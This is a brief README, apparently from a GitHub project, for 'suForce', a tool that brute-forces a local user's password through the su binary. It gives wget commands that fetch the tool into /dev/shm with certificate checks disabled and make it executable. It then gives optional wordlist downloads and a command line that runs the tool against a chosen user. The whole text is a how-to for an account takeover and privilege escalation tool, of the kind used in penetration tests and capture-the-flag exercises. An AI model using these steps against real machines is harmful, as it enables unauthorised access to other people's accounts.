 # **suForce**

#### Obtains a user's password by abusing the su binary.

![](/img/img.png)

---

## Download suForce

```sh
cd /dev/shm
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/suForce"
chmod +x suForce
```

## Download Wordlist (Optional)

```sh
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/techyou.txt"
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/top12000.txt"
```

## Usage

```sh
./suForce -u <USER> -w <WORDLIST>
```

---
